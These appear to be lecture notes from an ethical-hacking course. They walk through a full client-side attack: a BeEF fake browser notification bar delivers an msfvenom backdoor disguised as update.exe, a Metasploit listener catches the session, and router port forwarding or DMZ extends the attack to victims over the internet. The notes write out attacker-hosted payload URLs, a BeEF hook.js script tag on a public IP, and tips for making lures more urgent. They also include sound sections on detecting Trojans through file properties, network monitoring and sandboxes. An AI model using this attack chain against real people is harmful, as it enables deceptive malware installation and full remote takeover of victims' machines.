This attack uses BeEF to display a **Fake Notification Bar** at the top of the browser that looks exactly like a legitimate Firefox or Chrome system message.

### **2. The Setup (Pre-requisites)**

Before launching the attack in BeEF, the instructor sets up the "Bomb" that will be delivered:

1.  **The Payload:** He takes the backdoor file created with `msfvenom` (from previous lectures).
2.  **The Name:** He renames it from `rev_https_8080.exe` to **`update.exe`**. This is crucial for social engineering—users trust an "update," not random filenames.
3.  **The Location:** He moves this file to his web server folder: `/var/www/html/`.
    * *Result:* The file is now downloadable at `http://10.20.14.207/update.exe`.

### **3. Configuring the Attack in BeEF**


In the BeEF control panel, the instructor navigates to **Social Engineering** -> **Fake Notification Bar (Firefox)**.

He configures two main fields:
1.  **Notification Text:**
    * *Default:* "An additional plugin is required..."
    * *Instructor's Tip:* You can change this to be more urgent, like "Critical Security Update - Install Now."
2.  **Plugin URL (The Payload):**
    * He pastes the direct link to the backdoor he set up in Step 2: `http://10.20.14.207/update.exe`.

### **4. The Execution Flow**

1.  **The Trap:** The instructor clicks **Execute**.
2.  **The Victim's View:** A bar appears at the top of their browser. It looks native to the software, not like a pop-up ad.
3.  **The Click:** The victim clicks "Install Plugin."
4.  **The Download:** Instead of installing a plugin, the browser downloads `update.exe`.
5.  **The Execution:** The victim, thinking they are patching their browser, runs the `.exe` file.

### **5. The Catch (Metasploit Listener)**

Just like in the "Backdoor" lectures, the file won't work unless you are listening for it.

* The instructor quickly switches to his terminal where **Metasploit Multi-Handler** is running.
* **Settings:** He ensures the listener is set to the same IP and Port used when he created the backdoor originally.
* **Result:** As soon as the victim runs `update.exe`, the terminal shows `Meterpreter session opened`.

### **Summary of the Full Attack Chain**

| Step | Tool Used | Action |
| :--- | :--- | :--- |
| **1** | `msfvenom` | Create the backdoor (`update.exe`). |
| **2** | Apache | Host the file so it can be downloaded. |
| **3** | BeEF | **Hook** the browser and show the **Fake Notification**. |
| **4** | Social Engineering | Victim is tricked into clicking and running the file. |
| **5** | `msfconsole` | Receive the connection and gain full control. |

---

### <span style = "color: #569cd6">Detecting Trojans Manually</span>

### **The Big Picture: Defense vs. Offense**
Up until now, you have been playing the role of the **Attacker** (creating the Trojan). This lecture flips the script and teaches you how to be the **Defender**.

Since Trojans are designed to trick you visually (using fake icons and spoofed extensions), you cannot trust your eyes. You must trust the operating system's data.

### **1. The "Identity Card" Check (Static Analysis)**
The simplest way to spot a Trojan is to look past its disguise. A file might *look* like a picture of a car, but does Windows *think* it's a picture?

* **The Trick:** The hacker gives an `.exe` file a JPEG icon.
* **The Check:** Right-click the file -> Select **Properties**.
* **The Red Flag:**
    * **Type of file:** If it says **"Application (.exe)"** but the icon is a picture/PDF, **it is a Trojan.**
    * Real pictures will say "JPG File" or "PNG File." Real songs will say "MP3 File."

**The "Rename" Test:**
The instructor mentions that if a file name is using the "Right-to-Left Override" trick (where `gpj.exe` looks like `exe.jpg`), simply renaming the file often breaks the illusion.
* *Action:* Right-click -> Rename -> Change it to "Test".
* *Result:* The fancy spoofing characters often get removed or reset, revealing the true `.exe` extension at the end.

### **2. The "Wiretap" Check (Dynamic Analysis)**
Sometimes, checking the file properties isn't enough. For example, if you download a cracked game or a software installer, you *expect* it to be an `.exe`. In this case, the file type isn't suspicious, but its behavior might be.

To catch these, you need to see who the computer is talking to.

**The Tool: Resource Monitor**
Windows has a built-in tool that acts like a wiretap for your internet connection.
1.  **Open:** Search for "Resource Monitor" in Windows.
2.  **Tab:** Click on the **Network** tab.
3.  **Section:** Look at **TCP Connections**.

**What to look for:**
* **Local Port:** This is the door on your computer. (e.g., `8080`, `4444`).
* **Remote Address:** This is the IP address of the computer yours is talking to.
* **The Red Flag:** You see a connection to an IP address you don't recognize (like the hacker's IP `10.20.14.203` in the video, or a strange public IP) coming from a process that shouldn't be connecting to the internet or looks suspicious.

### **3. The "Background Check" (Reverse DNS)**
If you see a strange IP address in Resource Monitor (e.g., `69.63.176.13`), how do you know if it's a hacker or just Facebook?

**The Tool: Reverse DNS Lookup**
* **Action:** Go to Google and search for "Reverse DNS Lookup."
* **Input:** Type in the suspicious IP address you found in Resource Monitor.
* **Result:**
    * **Safe:** If it returns a domain name like `facebook.com`, `google.com`, or `akamai.net` (content delivery), it is likely legitimate traffic.
    * **Suspicious:** If it returns nothing, or a generic name from a cloud provider (like "AWS" or "DigitalOcean") for a program that shouldn't be using the cloud, or a residential internet provider name, it could be a hacker controlling your computer.

---

### **The Concept: A Safe Room for Malware**

In the previous lecture, you learned to check a file's "ID Card" (Static Analysis) and watch its "Phone Calls" (Network Monitoring). But what if you are too scared to even run the file on your own computer?

This is where a **Sandbox** comes in.
* **Definition:** A sandbox is an isolated, controlled environment—think of it as a "bomb disposal room." You throw the file inside, lock the door, and let it explode to see what happens.
* **Why use it:** As the instructor notes, your custom Trojan passed all Antivirus checks (because its *code* looked clean). However, a Sandbox doesn't care about code; it looks at **Behavior**. If a "picture" tries to change your Windows Registry, the sandbox knows it is malicious.

### **1. The Tool: Hybrid Analysis**

The instructor recommends using online cloud sandboxes (like `hybrid-analysis.com`).
* **Process:** You simply go to the website, upload the suspicious file, and wait.
* **Mechanism:** The website spins up a virtual computer, runs your file, records absolutely everything it does, and then destroys the virtual computer.

### **2. The Forensic Report**

After the analysis, you get a detailed report. The instructor highlights several "Red Flags" that will appear even if the file is 100% undetectable by Antivirus:

* **Registry Modification:** "Why is this image file trying to change my system settings?"
* **Error Suppression:** Malware often tries to hide crash messages to stay invisible.
* **Windows Sockets (Winsock):** This is the Windows service used for the internet. If a calculator app starts using Winsock, it's suspicious.
* **Network Traffic (The Smoking Gun):**
    * The report will list exactly which IP addresses the file tried to contact.
    * As seen in the lecture, it spots the connection to the hacker's IP on port **8080**.
    * **Analysis:** You can take this IP and do the "Reverse DNS" check (from the previous lecture) to see if it belongs to a legitimate company or a hacker.

### **3. The Golden Rule of Safety**

The instructor ends with a crucial safety warning for ethical hackers:
* **Never** test malware on your main, physical computer (Host Machine).
* **Always** use a **Virtual Machine (VM)** (like VirtualBox or VMware) or an **Online Sandbox**.
* If the malware contains a "worm" or "ransomware" component, running it on your main laptop could destroy your personal data permanently.

### **Summary of the "Client-Side Attacks" Module**

You have now completed the entire journey of a Client-Side Attack:
1.  **Creation:** Generating the backdoor with `msfvenom`.
2.  **Disguise:** Trojanning it inside an image and spoofing the extension.
3.  **Delivery:** Sending it via spoofed emails or hooking browsers with BeEF.
4.  **Defense:** detecting these attacks using File Properties, Network Monitoring, and Sandboxing.

### **Next Step**
You have now mastered how to trick a user into letting you in. The next logical step in learning Ethical Hacking is usually **Post-Exploitation**.

Now that you have that Meterpreter session (the "shell"), what can you actually do?
* **Privilege Escalation:** How to go from a "User" to "Administrator/System".
* **Keylogging:** Recording keystrokes to steal Facebook/Bank passwords.
* **Pivoting:** Using the hacked computer to attack *other* computers on the same network.

---

GAINING ACCESS - HACKING OUTSIDE THE LOCAL NETWORK
===

### <span style = "color: #569cd6">Overview of The Setup</span>

### **The Big Picture: Moving "Outside the House"**
Up until now, you have been hacking devices on your own Wi-Fi. This is like shouting to someone in the same room—it's easy because you are close.

Now, you want to hack someone in a different country (over the Internet). This introduces a problem: **How does the victim's computer find *your* specific laptop among the billions of devices on the internet?**

### **1. The Networking Barrier: Private vs. Public IPs**
To understand the solution, you must understand how your home network talks to the internet.


* **Private IPs (Inside the House):**
    * Every device in your home (Phone, Laptop, Kali machine) has a **Private IP** (e.g., `192.168.1.5`).
    * **Crucial Rule:** These IPs are *invisible* to the internet. If you tell a victim in another country to connect to `192.168.1.5`, it won't work because that address only exists inside your house.

* **Public IP (The Front Door):**
    * Your Router has a **Public IP** (e.g., `85.23.11.4`). This is assigned by your Internet Service Provider (ISP).
    * This is the *only* address the outside world sees. When you browse Google, Google thinks the request came from `85.23.11.4`, not your laptop's private IP.

### **2. The Problem: The "Lost Delivery"**
Imagine you send a Backdoor to a victim in another country.
1.  **Configuration:** You tell the backdoor to connect back to your **Public IP** (`85.23.11.4`) because that's the only address they can find.
2.  **The Connection:** The victim runs the file. The connection travels across the internet and hits your **Router**.
3.  **The Drop:** Your Router receives a connection on Port 8080. It looks at your internal network (Phone, TV, Laptop, Kali) and asks: *"Who is this for?"*
    * Since it doesn't know, **it drops the connection.** The hack fails.

### **3. The Solution: Port Forwarding**
**Port Forwarding** is a rule you write inside your Router's settings. It acts like a receptionist.

* **The Rule:** *"Hey Router, if anyone from the internet knocks on **Port 8080**, send them directly to the **Kali Machine (192.168.1.5)**."*

**With Port Forwarding enabled:**
1.  Victim connects to **Public IP** on Port 8080.
2.  Router checks its list: "Oh, Port 8080 goes to Kali."
3.  Router **forwards** the traffic to your laptop.
4.  **Success:** Your Metasploit listener receives the connection.

### **4. Alternative Methods**
The instructor notes that while Port Forwarding is the "classic" way, there are other modern ways to handle this if you can't access your router settings:
* **Cloud Servers:** Running Kali on AWS or DigitalOcean (which have direct Public IPs).
* **Tunneling Services:** Using tools like **Ngrok** or **Serveo** to create a temporary tunnel through the router without changing settings.

---

### <span style = "color: #569cd6">Ex1 - Generating a Backdoor That Works Outside The Network</span>

### **The Main Challenge: The "Two-Address" Problem**
In previous lectures, you hacked devices on your own Wi-Fi. This was easy because your Kali machine and the victim were in the same "room" (the same network).
Now, you are hacking someone across the internet. This creates a dilemma:

1.  **The Backdoor** needs to find your **Router** (Public IP).
2.  **The Listener** needs to run on your **Kali Machine** (Private IP).

This lecture explains why you must configure them differently.

### **Step 1: Configuring the Backdoor (Public IP)**
When you generate the payload with `msfvenom`, you must change the `LHOST`.

* **The Setting:** `LHOST = [Your Public IP]`
* **How to find it:** Google "What is my IP".
* **The Logic:**
    * Imagine you are mailing a letter to a friend in a different country. You cannot write "Room 3" (Private IP) as the return address; the post office won't know which building "Room 3" is in.
    * You must write the **Street Address of the Building** (Public IP).
    * The victim is on the internet. The only address they can see is your Router's Public IP. If you put your local IP (`192.168.x.x`) in the backdoor, the victim's computer will try to connect to *its own* local network and fail.

### **Step 2: Configuring the Listener (Private IP)**
This is where most students get confused. Even though the backdoor points to the Public IP, your listener **must** use the Private IP.

* **The Setting:** `LHOST = [Your Local IP]` (e.g., `192.168.1.15`)
* **The Logic:**
    * The Listener software (`exploit/multi/handler`) runs on your Kali Linux machine.
    * Your Kali machine **does not own** the Public IP; the *Router* owns the Public IP.
    * Therefore, Kali cannot "listen" on the Public IP directly. It can only listen on its own network interface card, which has the Private IP.
    * *Analogy:* You are waiting inside "Room 3" (Kali). You cannot wait at the "Building Front Desk" (Router). You must wait in your room.

### **The "Disconnect"**
So, we have a mismatch:
1.  **The Victim** sends traffic to the **Router** (Public IP).
2.  **You** are waiting at the **Kali Machine** (Private IP).

Currently, the traffic hits the Router and stops because the Router doesn't know you are waiting. This is exactly why the instructor says the next step is **Port Forwarding**. You need to tell the Router (Front Desk) to send that specific traffic to "Room 3" (Kali).

### **Summary Checklist**

| Component | LHOST Setting | Why? |
| :--- | :--- | :--- |
| **Backdoor** (`msfvenom`) | **Public IP** | The victim on the internet needs to find your house (Router). |
| **Listener** (`msfconsole`) | **Private IP** | You can only listen on the device you control (Kali). |

---

### <span style = "color: #569cd6">Configuring The Router To Forward Connections To Kali</span>

### **The Objective: Opening the Door**
In the previous lecture, we established the problem: The Router stops outside traffic from reaching your Kali machine.
In this lecture, we solve that problem by configuring the Router to act as a **bridge** rather than a wall. This allows you to hack targets anywhere in the world (e.g., a Windows machine on a completely different network).

### **Step 1: Accessing the Router (The Gateway)**
To tell the router what to do, you must log into its settings page.

1.  **Find the Router's IP:**
    * The router is the "Gateway" to the internet.
    * **Command:** Open a terminal and type `route -n`.
    * **Look for:** The IP under the "Gateway" column (usually `192.168.0.1` or `192.168.1.1`).
2.  **Login:**
    * Type that IP address into your web browser (Firefox).
    * Enter the username/password. (Check the sticker on the back of the router if you don't know it, or search for the default credentials for your router model).

### **Step 2: The "Forwarding" Menu**
Every router looks different, but the logic is always the same. You need to find the section responsible for routing traffic.
* **Keywords to look for:** "Forwarding," "Port Forwarding," "Virtual Server," "NAT," or "Advanced Applications."
* **The Goal:** You are looking for a table where you can add "Rules."

### **Step 3: Creating the Rules**
The instructor sets up **two** specific rules to enable the attack.

#### **Rule 1: The Backdoor Connection (Port 8080)**
This ensures that when the victim (infected with the malware) tries to "phone home," the call connects.

* **Service Port (External/Public):** `8080`
    * *Why?* This is the port we set in the backdoor payload (`LPORT`).
* **Internal Port (Target):** `8080`
    * *Why?* This is the port our Metasploit listener is watching.
* **IP Address (Target IP):** `192.168.0.11` (Your Kali IP)
    * *Why?* This tells the router: "Send this traffic specifically to the Kali laptop, not the TV or the phone."

#### **Rule 2: The Delivery Service (Port 80)**
This is optional but useful. It allows the instructor to host the malware on his own computer and let the victim download it directly from him.

* **Service Port:** `80` (The standard HTTP web port).
* **IP Address:** `192.168.0.11` (Your Kali IP).
* **Result:** Now, your Kali machine acts like a public website. Anyone in the world who types your **Public IP** into their browser will see the files in your `/var/www/html/` folder.

### **Step 4: The Proof of Concept**
To prove this works, the instructor switches to a Windows machine connected to a **completely different network** (simulating a victim in another country).

1.  **The Delivery Test (Port 80):**
    * The victim opens a browser and types: `http://[Attacker_Public_IP]/backdoor.exe`.
    * **Success:** The file downloads. This proves the router successfully forwarded the web traffic (Port 80) to the Kali machine.
2.  **The Attack Test (Port 8080):**
    * The victim runs `backdoor.exe`.
    * **Success:** On the Kali machine, a `Meterpreter session` opens.
    * **Note:** The connection shows it came from a "Public IP" (External) to the "Private IP" (Internal).

### **Summary Checklist**
1.  **Gateway IP:** Found using `route -n`.
2.  **Login:** Accessed router settings via browser.
3.  **Rule 1:** Forwarded Port **8080** to Kali (for the shell).
4.  **Rule 2:** Forwarded Port **80** to Kali (for the download).
5.  **Validation:** Victim on external network successfully connected back.

---

### <span style = "color: #569cd6">Ex2 - Using BeEF Outside The Network</span>

### **The Goal: Hooking a Victim Across the World**
In previous BeEF lectures, you hooked browsers on your own Wi-Fi. Now, we apply the "Port Forwarding" logic you just learned to hook a victim on a completely different network (the internet).

The logic remains the same:
1.  **The Hook (The Bait):** Needs to point to your **Public IP**.
2.  **The Router (The Gate):** Needs to let the traffic in.
3.  **The Listener (The Trap):** BeEF running on your Kali machine.

### **Step 1: Configuring the Hook**
BeEF provides a default hook script (usually pointing to `127.0.0.1` or your local IP). This won't work for an outside victim.

1.  **Edit the File:** The instructor modifies the `index.html` file in `/var/www/html/`.
2.  **Change the IP:** He replaces the local IP with his **Public IP** (found via "What's my IP" on Google).
    * *Why?* When the victim loads the page, their browser needs to know where to send the data. It can only find your Public IP.
3.  **The Result:** The script line looks roughly like:
    `<script src="http://[PUBLIC_IP]:3000/hook.js"></script>`

### **Step 2: Port Forwarding for BeEF**
Unlike the backdoor which used Port 8080, BeEF operates on **Port 3000**. You must add a specific rule for this.

* **Log into Router:** Go to the router's IP (Gateway).
* **Add Rule:**
    * **External Port:** 3000
    * **Internal Port:** 3000
    * **Internal IP:** `192.168.0.11` (Your Kali machine).
* **Verify:** Now, when the router receives traffic on Port 3000, it sends it straight to BeEF.


### **The Alternative: DMZ Host (The "Lazy" Method)**
The instructor introduces a shortcut called **DMZ** (Demilitarized Zone).

* **What it is:** Instead of manually forwarding ports one by one (80 for Web, 8080 for Backdoor, 3000 for BeEF), you tell the router: **"Send ALL incoming traffic from the internet to this one specific computer."**
* **How to set it up:**
    1.  Find the "DMZ" setting in your router.
    2.  Enter your Kali machine's Local IP (`192.168.0.11`).
    3.  Enable it.
* **Pros:** It is instant. You never have to configure a port rule again. Everything works immediately.
* **Cons (Security Risk):** It completely exposes your Kali machine to the internet. Since *every* port is open, if your Kali machine has a vulnerability, hackers on the internet can attack *you* easily. It removes the router's firewall protection for that specific machine.

### **Summary of the Rules**

| Setting | Port Forwarding | DMZ Host |
| :--- | :--- | :--- |
| **Traffic** | Forwards only specific ports (e.g., 80, 3000). | Forwards **ALL** ports (0-65535). |
| **Security** | High (Firewall still blocks other ports). | Low (Machine is fully exposed). |
| **Setup** | Tedious (One rule per tool). | Fast (One rule for everything). |

### **Final Course Status**
You have now completed the **Network Configuration** module!
* You understand Public vs. Private IPs.
* You can set up Port Forwarding rules.
* You know how to use a DMZ for quick setups.
